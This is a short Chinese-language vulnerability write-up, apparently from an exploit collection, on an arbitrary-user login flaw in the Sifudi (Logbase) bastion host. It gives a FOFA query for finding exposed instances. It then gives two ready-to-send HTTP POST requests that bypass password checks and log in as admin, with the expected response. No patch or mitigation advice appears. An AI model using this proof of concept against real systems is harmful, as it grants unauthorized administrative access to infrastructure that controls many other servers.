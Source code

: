 # 思福迪堡垒机 任意用户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

```
思福迪堡垒机
```

## FOFA

```
"Logbase运维安全管理系统"
```

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```plain
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```



获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**



带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```plain
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```



利用后即可登录后台

![](./images/202202101953637.png)